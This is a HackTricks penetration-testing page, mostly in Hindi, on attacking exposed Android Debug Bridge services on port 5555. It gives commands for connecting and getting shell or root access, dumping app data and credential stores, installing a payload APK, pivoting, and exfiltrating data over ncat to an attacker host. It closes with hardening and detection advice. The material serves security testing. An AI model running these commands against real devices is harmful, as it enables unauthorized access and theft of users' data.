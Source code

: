 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) एक कमांड-लाइन टूल है जो Android-आधारित उपकरणों और इम्यूलेटर के साथ संवाद करने के लिए उपयोग किया जाता है। सामान्य क्रियाओं में पैकेज स्थापित करना, डिबगिंग करना, और उपकरण पर एक इंटरैक्टिव Unix शेल प्राप्त करना शामिल है।

- ऐतिहासिक डिफ़ॉल्ट TCP पोर्ट: 5555 (क्लासिक "adb tcpip" मोड)।
- आधुनिक वायरलेस डिबगिंग (Android 11+) TLS पेयरिंग और mDNS सेवा खोज का उपयोग करता है। कनेक्ट पोर्ट गतिशील है और mDNS के माध्यम से खोजा जाता है; यह 5555 नहीं हो सकता है। पेयरिंग adb pair host:port के साथ की जाती है उसके बाद adb connect। आक्रामक निहितार्थों के लिए नीचे नोट्स देखें।

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

यदि आप ADB को उजागर और पहुंच योग्य पाते हैं, तो जल्दी से कनेक्ट करने और सूचीबद्ध करने का प्रयास करें:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- यदि डिवाइस ADB प्रमाणीकरण लागू करता है (ro.adb.secure=1), तो आपको पूर्व-प्रमाणित (USB RSA auth) होना पड़ेगा या Android 11+ वायरलेस डिबगिंग पेयरिंग का उपयोग करना पड़ेगा (जिसके लिए डिवाइस पर प्रदर्शित एक बार का कोड आवश्यक है)।
- कुछ विक्रेता छवियाँ, इंजीनियरिंग/यूजरडिबग बिल्ड, एमुलेटर्स, टीवी, STB और विकास किट बिना प्रमाणीकरण के या रूट के रूप में adbd को उजागर करते हैं। उन मामलों में, आप आमतौर पर सीधे एक शेल या रूट शेल में पहुँचेंगे।

सामान्य ADB कमांड संदर्भ के लिए, देखें:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## त्वरित पोस्ट-एक्सप्लॉइटेशन

एक बार जब आपके पास शेल हो, तो विशेषाधिकार और SELinux संदर्भ को मान्य करें:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerate and capture data

- तीसरे पक्ष के ऐप और पथों की सूची बनाएं:
```bash
pm list packages -3
pm path <pkg>
```
- यदि आपके पास रूट है (adb root या su काम करता है), तो आप सीधे /data तक पहुंच सकते हैं। यदि नहीं, तो डिबग करने योग्य ऐप्स के लिए run-as का उपयोग करें:
```bash
# बिना रूट के, एक डिबग करने योग्य ऐप के लिए
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# रूट के साथ
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- उपयोगी सिस्टम आर्टिफैक्ट (रूट की आवश्यकता):
- /data/system/users/0/accounts.db और संबंधित AccountManager डेटा
- /data/misc/wifi/ (पुराने संस्करणों पर नेटवर्क कॉन्फ़िग्स/कीज़)
- ऐप-विशिष्ट SQLite DBs और shared_prefs /data/data/<pkg> के तहत

आप इसका उपयोग संवेदनशील जानकारी (जैसे, ऐप रहस्य) प्राप्त करने के लिए कर सकते हैं। Chrome डेटा विचारों के बारे में नोट्स के लिए, संदर्भित मुद्दे को देखें [यहां](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- इंस्टॉल करें और रनटाइम अनुमतियों को स्वचालित रूप से दें:
```bash
adb install -r -g payload.apk         # -g मैनिफेस्ट में घोषित सभी रनटाइम अनुमतियों को देता है
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- गतिविधियों/सेवाओं/प्रसारणों को सीधे शुरू करें:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port forwarding and pivoting

रूट के बिना भी, adb स्थानीय पोर्ट को डिवाइस पोर्ट पर और इसके विपरीत अग्रेषित कर सकता है। यह डिवाइस पर स्थानीय रूप से बंधी सेवाओं तक पहुंचने या हमलावर सेवाओं को डिवाइस पर उजागर करने के लिए उपयोगी है।

- होस्ट->डिवाइस अग्रेषित करें (अपने होस्ट से डिवाइस-स्थानीय सेवा तक पहुंचें):
```bash
adb forward tcp:2222 tcp:22       # यदि डिवाइस SSH चलाता है (जैसे, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # ऐप के स्थानीय डिबग सर्वर को उजागर करें
```
- रिवर्स डिवाइस->होस्ट (डिवाइस को आपके होस्ट पर एक सेवा तक पहुंचने दें):
```bash
adb reverse tcp:1080 tcp:1080     # डिवाइस ऐप अब host:1080 को 127.0.0.1:1080 के रूप में पहुंच सकते हैं
```
- सॉकेट के माध्यम से फ़ाइल निकासी (कोई sdcard लेखन नहीं):
```bash
# होस्ट पर: सुनें
ncat -lvp 9000 > dump.tar
# डिवाइस पर: निर्देशिका को tar के रूप में भेजें (रूट या run-as के अनुसार)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Wireless Debugging (Android 11+)

आधुनिक Android डिवाइस-साइड पेयरिंग और mDNS खोज के साथ TLS-सुरक्षित वायरलेस डिबगिंग लागू करता है:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- पोर्ट गतिशील हैं; 5555 मान न मानें। mDNS सेवा नाम इस प्रकार दिखते हैं:
- _adb-tls-pairing._tcp (जोड़ना)
- _adb-tls-connect._tcp (जुड़ा हुआ कनेक्ट)
- _adb._tcp (विरासत/सादा)
- यदि mDNS फ़िल्टर किया गया है, तो कुछ बिल्ड पर क्लासिक USB-सहायता सक्षम करना अभी भी काम कर सकता है: `adb tcpip 5555` फिर `adb connect <ip>:5555` (रीबूट होने तक)।

आक्रामक निहितार्थ: यदि आप डिवाइस UI के साथ इंटरैक्ट कर सकते हैं (जैसे, भौतिक पहुंच या मोबाइल MDM गलत कॉन्फ़िगरेशन) वायरलेस डिबगिंग सक्षम करने और जोड़ने के कोड को देखने के लिए, तो आप बिना केबल के एक दीर्घकालिक जुड़े ADB चैनल स्थापित कर सकते हैं। कुछ OEMs बिना जोड़ने के इंजीनियरिंग/डेव छवियों में TCP पर ADB को उजागर करते हैं—हमेशा जांचें।

## Hardening / Detection

रक्षा करने वालों को मान लेना चाहिए कि कोई भी पहुंच योग्य adbd (TCP) महत्वपूर्ण जोखिम है।

- जब आवश्यकता न हो, ADB और वायरलेस डिबगिंग को बंद करें। डेवलपर विकल्पों में USB डिबगिंग प्राधिकरण को रद्द करें।
- सुनिश्चित करें कि नेटवर्क नीति अविश्वसनीय खंडों पर इनबाउंड TCP/5555 और mDNS-आधारित ADB खोज को ब्लॉक करती है।
- आपके नियंत्रण में उपकरणों पर:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP सुनने को बंद करें (या उपयोग करें: adb usb)
stop adbd; start adbd             # डेमॉन को पुनः प्रारंभ करें
```
- कॉर्पोरेट नेटवर्क पर mDNS रिकॉर्ड `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` के लिए निगरानी करें और अप्रत्याशित 5555 श्रोता के लिए अलर्ट करें।
- असुरक्षित बिल्ड के लिए सूची बनाएं: `getprop ro.debuggable`, `ro.build.type`, और `ro.adb.secure`।

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
